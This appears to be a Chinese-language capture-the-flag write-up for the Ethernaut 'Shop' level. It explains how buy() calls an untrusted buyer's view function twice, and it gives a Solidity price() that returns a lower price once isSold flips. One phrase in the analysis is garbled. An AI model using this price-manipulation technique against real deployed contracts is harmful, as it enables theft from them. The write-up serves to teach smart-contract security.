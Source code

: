 # Shop

## Reference
[Shop](https://ethernaut.openzeppelin.com/level/21)

[Shop.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/21-Shop/Shop.sol)

## 目标
用少于商品价格的钱购买商品

## 分析
### view
```solidity
interface Buyer {
    function price() external view returns (uint256);
}
```
1. `view` 修饰符表示当前函数不会更新 storage参数，因此不能按照 bool flag的方式实现多次调用的不同结果
```solidity
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
        require(_buyer.price() >= price, "Lower price");
        require(!isSold, "Sold");
        isSold = true;
        price = _buyer.price();
    }
```
2. `isSold` 参数的更新在下一次的函数调用植物i四年，因此可以通过 `isSold` 参数判断当前的调用
```solidity
    function price() external  view returns (uint256) {
    if (!shop.isSold()) {
        return _price;
    } else {
        return _price / 20;
    }
}
```
